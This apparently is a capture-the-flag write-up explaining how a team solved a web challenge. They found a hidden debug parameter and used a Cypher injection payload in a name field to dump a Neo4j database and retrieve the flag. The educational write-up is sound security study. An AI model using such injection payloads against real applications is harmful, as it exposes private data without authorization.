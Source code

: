# the_stand \[500 points\] (1 solve)

> Some people are good people and have friends. Randall Flagg is evil, with no friends, but he has the knowledge.

This challenge consists of solely a web interface, which we can deduce is powered by Express and nginx (presumably for load balancing) from response headers. Also, as you might be able to tell from the title, the entire challenge uses names and quotes from Steven King's 1978 dark fantasy novel "The Stand."

This problem was mainly solved by Aayush, but was also worked on by Nate, Alex, Ryan, Lauren, and Eamon.

## The Attack Vector

The main functionality of this challenge is to request a list of people and query these people to see who their friends are. As you might be able to tell, the flag is somehow related to the character Randall Flagg, who doesn't have friends, but he has "the knowledge" (presumably the flag). If we can somehow query more information about Randall Flag, we might be able to gain more information which would allow us to find the flag.

To start, we can query the list of people at `/people` and get a list of people and their quotes.

<details>
<summary>People and their quotes</summary>

```
Data for Stu Redman:
{"message":"Stu Redman says: Here you go, I lost my appetite all of a sudden.","friends":["Frances Goldsmith says: Harold, I don't think I'm ever gonna get these calluses off my fanny.","Abagail Freemantle says: I have sinned in pride. So have you all. But that's past now."]}

Data for Abagail Freemantle:
{"message":"This person has no friends (sad!)"}

Data for Frances Goldsmith:
{"message":"Frances Goldsmith says: Harold, I don't think I'm ever gonna get these calluses off my fanny.","friends":["Harold Lauder says: If you go with me, I’ll treat you like a queen. No, better than a queen. Like a goddess.","Abagail Freemantle says: I have sinned in pride. So have you all. But that's past now."]}

Data for Randall Flagg:
{"message":"This person has no friends (sad!)"}

Data for Larry Underwood:
{"message":"Larry Underwood says: Baby, can you dig your man?","friends":["Harold Lauder says: If you go with me, I’ll treat you like a queen. No, better than a queen. Like a goddess.","Frances Goldsmith says: Harold, I don't think I'm ever gonna get these calluses off my fanny."]}

Data for Harold Lauder:
{"message":"This person has no friends (sad!)"}

Data for Glen Bateman:
{"message":"Glen Bateman says: The law is an imperfect mechanism. It doesn't operate at all when there is no enforcement.","friends":["Stu Redman says: Here you go, I lost my appetite all of a sudden."]}
```

</details>

<br>

However, this doesn't give us any information about the challenge. 

When you open the inspector, we can see a clue in the HTML that will help us understand the challenge better:

```html
    <!-- Form to query a character's friends -->
    <h2>Find Friends</h2>
    <form id="friend-form">
        <label for="first-name">First Name:</label>
        <input type="text" id="first-name" placeholder="First Name" required>
        <br>
        <label for="last-name">Last Name:</label>
        <input type="text" id="last-name" placeholder="Last Name" required>
        <br>
        <!--
        <label for="debug">Debug:</label>
        <input type="checkbox" id="debug" name="debug">
        -->
        <button type="submit">Get Friends</button>
    </form>
    <div id="results"></div>
```

Uncommenting the debug checkbox now appends `&debug=true` to our query, and returns a lot of information: 

```json
{
    "message": "This person has no friends (sad!)",
    "query": "MATCH (p:Person (firstName: 'Randall', lastName: 'Flagg')) OPTIONAL MATCH (p)-[:FRIEND]->(f) RETURN p.tag AS personTag, f.firstName AS firstName, f.lastName AS lastName, f.tag AS friendTag\n"
}
```

<details>
<summary>Formatted version</summary>

```
MATCH (p:Person {firstName: 'Randall', lastName: 'Flagg'})
OPTIONAL MATCH (p)-[:FRIEND]->(f)
RETURN p.tag AS personTag, f.firstName AS firstName, f.lastName AS lastName, f.tag AS friendTag
```

</details>

<br>

Essentially, we can now see that our input is being executed in a Cypher query, which is querying a Neo4j database that presumably contains the flag. Given that the `firstName` is directly inserted into the string (and not sanitized), we can infer that we need to create a Cypher injection to reveal information about Randall Flagg that we aren't currently able to see.

It is important to note that, at the moment, the server is matching for the *friends* of Randall Flagg and not Randall Flagg's data.

## Execution

From this information, we know that we need to return Randal Flagg's data and not his friend's, since he has no friends but he has "the knowledge." To build our injection, we can break out of the current input with an apostrophe and construct a query. We need to make sure to add a comment (`//`) after that to force the database to ignore the invalid end part of the query added by the server.

So, this is our attack payload:

```cypher
Randall' }) OPTIONAL MATCH (n) RETURN n.tag as personTag, n.firstName as firstName, n.lastName as lastName, n.tag as friendTag //
```


When it's all formatted correctly and concatenated on the server, the query looks something like this:

> ![NOTE]
> I've added a couple of newlines between the injected query and the comment just for viewing purposes.

```
MATCH (p:Person {firstName: 'Randall'})
OPTIONAL MATCH (n)
RETURN n.tag AS personTag, n.firstName AS firstName, n.lastName AS lastName, n.tag AS friendTag


// ', lastName: 'Flagg'}) OPTIONAL MATCH (p)-[:FRIEND]->(f) RETURN p.tag AS personTag, f.firstName AS firstName, f.lastName AS lastName, f.tag AS friendTag
```


Now, instead of returning the friends of Randall Flagg, the database returns the actual tag (message) of Randall. 

![solve screen](/knowledge/the_stand/solution/solve.png)

Flag:
```
ictf{People_who_try_hard_to_do_the_right_thing_always_seem_mad}
```

## Conclusion

This challenge honestly wasn't *that* hard, or, at least, it was significantly easier than Boing. However, I suspect that none of the other teams solved this because of the need to find the debug mode: the combination of the new category "knowledge" and the references to passages from the book "The Stand" leads you to believe that OSINT is required to solve the challenge.  